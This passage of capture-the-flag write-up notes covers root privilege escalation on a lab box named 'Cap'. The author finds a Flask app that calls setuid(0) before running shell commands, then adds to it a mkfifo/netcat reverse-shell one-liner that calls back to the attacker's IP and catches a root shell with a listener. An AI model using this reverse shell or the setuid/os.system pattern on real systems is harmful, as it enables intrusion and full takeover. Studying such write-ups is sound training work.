 * Go to /var/www/html
* See interesting file *app.py*
* Reading through this file, know that it runs the web server
```python
@app.route("/capture")
@limiter.limit("10 per minute")
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))
```
* Notice the line of code near the bottom that specifies system commands then executes them
	* This code seems to set the user id of process to 0, which is root
	* This server is allowed to execute as root??
```python
if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)

```
* This is how the server starts up
* When trying to run it, gives an error saying port is already being used
* We don't have privelage to restart service
* Try chaning port number?
```bash
nathan@cap:/var/www/html$ python3 app.py 
 * Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://10.10.10.245:8080/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 974-434-802
```
* It appears to be running; visiting 10.10.10.245:8080 shows that it is running
```python
@app.route("/")
def index():
        command = f"""python3 -c 'import os; os.setuid(0); os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f")'"""
        os.system(command)
        return render_template("index.html")
```
* Add shellcode to script, then start a listener on our machine and visit the index of the port 8080 server
```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.245] 58722
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# 
```
